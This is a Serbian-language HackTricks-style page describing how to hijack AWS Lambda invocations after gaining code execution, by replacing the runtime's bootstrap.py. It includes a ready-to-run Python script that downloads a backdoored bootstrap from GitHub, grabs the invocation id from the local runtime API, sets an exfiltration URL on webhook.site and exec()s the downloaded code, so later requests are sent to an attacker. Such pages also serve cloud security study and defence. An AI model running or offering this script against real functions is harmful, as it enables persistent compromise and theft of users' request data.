 # AWS - Ukradi Lambda zahteve

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje pozive** **inicijalnom** procesu.
2. Inicijalni proces osluškuje port **9001** izlažući neke zanimljive endpointove:
* **`/2018-06-01/runtime/invocation/next`** – dobijanje sledećeg događaja poziva
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vraćanje odgovora rukovaoca za poziv
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vraćanje greške izvršenja
3. **bootstrap.py** ima petlju koja dobija pozive od inicijalnog procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje inicijalnom procesu **odgovor**

Imajte na umu da bootstrap učitava korisnički kod kao modul, tako da se svako izvršavanje koda koje obavlja korisnički kod zapravo dešava u ovom procesu.

## Krađa Lambda Zahteva

Cilj ovog napada je da se natera korisnički kod da izvrši zlonamerni **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjiv zahtev. Na ovaj način, **zlonamerni bootstrap** proces će početi **komunicirati sa inicijalnim procesom** kako bi obradio zahteve dok je **legitimni** bootstrap **zarobljen** izvršavajući zlonamerni, tako da neće tražiti zahteve od inicijalnog procesa.&#x20;

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legitimnog **`bootstrap.py`** procesa. Dakle, napadač bi mogao:

* **Poslati lažan rezultat trenutnog poziva inicijalnom procesu**, tako da inicijalni proces misli da bootstrap proces čeka na više poziva.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**&#x20;
* invoke-id se može dobiti iz steka legitimnog **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao što je [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ili jednostavno ponovno zahtevajući sa **`/2018-06-01/runtime/invocation/next`** (kao što je [predloženo ovde](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Izvršiti zlonamerni **`boostrap.py`** koji će obraditi sledeće pozive
* Radi prikrivenosti, moguće je poslati parametre lambda poziva ka kontrolisanom C2 napadača, a zatim obraditi zahteve kao i obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github-a**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutnog lambda poziva.

### Koraci Napada

1. Pronađite **RCE** ranjivost.
2. Generišite **zlonamerni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Izvršite** zlonamerni bootstrap.

Ove akcije možete lako izvršiti pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija pogledajte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
